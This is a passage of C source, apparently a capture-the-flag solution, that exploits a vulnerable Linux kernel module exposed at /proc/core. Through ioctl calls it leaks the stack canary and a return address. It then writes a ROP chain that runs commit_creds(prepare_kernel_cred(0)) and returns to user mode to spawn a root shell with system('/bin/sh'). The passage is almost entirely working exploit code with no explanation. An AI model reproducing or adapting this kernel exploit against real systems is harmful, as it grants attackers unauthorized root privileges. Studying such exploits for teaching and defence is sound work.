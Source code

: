 ```
	"pushfq\n"
	"popq %2\n"
	: "=r" (user_cs), "=r" (user_ss), "=r" (user_rflags) : : "memory");
}

void set_uid()
{
    char* (*pkc)(int) = prepare_kernel_cred_addr;
    void (*cc)(char*) = commit_creds_addr;
    (*cc)((*pkc)(0));
}

void win()
{
    system("/bin/sh");
}

int main(int argc,char **argv)
{
	printf("prepare_kernel_cred: ", &prepare_kernel_cred_addr);
	scanf("%llx", &prepare_kernel_cred_addr);
	printf("commit_creds: ", &commit_creds_addr);
	scanf("%llx", &commit_creds_addr);

	char s[100];
	char* leak = (char*)malloc(1024);
	int fd = open("/proc/core",O_RDWR);

	/*----------------------info leak------------------------*/
	ioctl(fd,COMMAND_PRINT,0x40);
	ioctl(fd,COMMAND_READ,leak);
	u64 canary = ((u64*)leak)[0];
	u64 ret_addr = ((u64*)leak)[2];

	/*----------------------rop chain------------------------*/
	u64 iret_addr = prepare_kernel_cred_addr - 311838;
	save_state();
	u64 rop_chain[]={
	0x9090909090909090,
	0x9090909090909090,
	0x9090909090909090,
	0x9090909090909090,
	0x9090909090909090,
	0x9090909090909090,
	0x9090909090909090,
	0x9090909090909090,
	canary,
	0x9090909090909090,
	&set_uid,
	ret_addr-0xc5,
	&s-0x100,
	iret_addr,
	&win,
	user_cs,
	user_rflags,
	&s-0x100,
	user_ss
	};
	write(fd,rop_chain,1024);
	ioctl(fd,COMMAND_COPY,0xff00000000000100);

	return 0;
}
```